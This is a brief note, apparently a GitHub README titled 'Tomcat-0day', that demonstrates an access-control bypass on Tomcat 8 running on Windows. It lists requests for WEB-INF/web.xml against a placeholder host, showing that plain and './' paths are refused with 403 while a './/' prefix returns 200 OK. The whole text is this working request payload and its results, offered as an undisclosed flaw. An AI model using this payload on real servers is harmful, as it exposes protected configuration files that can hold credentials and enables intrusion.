 # Tomcat-0day

https://x.x.x.x/WEB-INF/web.xml -> 403 Forbidden
https://x.x.x.x/./WEB-INF/web.xml -> 403 Forbidden
https://x.x.x.x/.//WEB-INF/web.xml -> 200 OK
Tomcat 8 on Windows...
